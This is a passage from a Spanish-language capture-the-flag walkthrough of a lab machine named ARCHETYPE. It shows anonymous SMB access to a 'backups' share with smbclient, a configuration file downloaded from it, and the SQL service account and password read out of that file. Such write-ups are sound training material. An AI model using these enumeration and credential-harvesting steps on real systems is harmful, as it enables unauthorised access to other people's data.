 ```shell
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Donde vemos un recurso que no requiere privilegios, *backups*, por lo que tratamos de acceder a él:

```shell
smbclient -N \\\\<ip>\\backups
```

Nos conectamos y descargamos el archivo que contiene:

```shell
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020
		
		5056511 blocks of size 4096. 2615627 blocks available

smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (2,7 KiloBytes/sec) (average 2,7 KiloBytes/sec)

smb: \> exit
```

Si una vez en nuestro equipo tratamos de listarlo:

```xml
cat prod.dtsConfig

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Vemos unas credenciales para el usuario `sql_svc`, con contraseña `M3g4c0rp123`, alojado en el host  `ARCHETYPE`. En este punto, deberíamos comprobar si las credenciales corresponden al servicio de base de datos que corría en el puerto 1433.


## Accediendo al servidor de base de datos

